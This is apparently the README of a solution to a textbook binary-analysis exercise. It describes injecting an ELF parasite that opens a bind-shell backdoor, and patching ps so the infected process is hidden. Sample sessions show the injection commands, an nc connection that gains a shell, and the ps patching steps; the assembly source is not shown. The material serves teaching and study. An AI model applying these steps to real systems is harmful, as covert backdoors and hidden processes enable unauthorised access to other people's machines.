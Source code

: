 # An ELF Parasite

Write your own ELF parasite and use elfinject to inject it into a program
of your choice. See whether you can make the parasite fork off a child
process that opens a backdoor. Bonus points if you can create a modiﬁed
copy of ps that doesn’t show the parasite process in the process listing.

## Solution

victim.c (acts as the host binary)\
elf-parasite.s (acts as a bind shell)

## Bonus Solution

ps-parasite.s (acts as the process hider)\
ps-patcher.py (acts as a patch helper)

## Sample Session

Victim machine:

```
$ gcc -o victim victim.c
$ nasm -f bin -o elf-parasite.bin elf-parasite.s
$ ./elfinject victim elf-parasite.bin ".parasite" 0x800000 0
$ ./victim
I'm a victim!
$ netstat -ap tcp | grep victim
tcp        0      0 *:19484    *:*    LISTEN    10662/victim 
```

Attacker machine:

```
$ nc -nv 10.0.0.33 19484
found 0 associations
found 1 connections:
     1: flags=82<CONNECTED,PREFERRED>
        outif en0
        src 10.0.0.37 port 61034
        dst 10.0.0.33 port 19484
        rank info not available
        TCP aux info available

Connection to 10.0.0.33 port 19484 [tcp/*] succeeded!
whoami
admin
exit
```

## Sample Session (Bonus)

```
$ nasm -f bin -o ps-parasite.bin ps-parasite.s
$ python3 ps-patcher.py # this patches calls to readproc/readproctab2
[*] Copying /bin/ps to [...]/ps-modified
[*] Applying readproc patch at offset 0x2cf9
[*] Applying readproctab2 patch at offset 0x2909
[*] Done applying patches
$ ./elfinject ps-modified ps-parasite.bin ".parasite" 0x800000 -1
$ ./victim
I'm a victim!
$ netstat -ap tcp | grep victim
tcp        0      0 *:19484    *:*    LISTEN    10662/victim 
$ # The victim process is hidden in all of the following ps outputs:
$ ./ps-modified
[...]
$ ./ps-modified aux
[...]
$ ./ps-modified -e
[...]
$ ./ps-modified -ef
[...]
$ ./ps-modified f (invokes readproctab2)
[...]
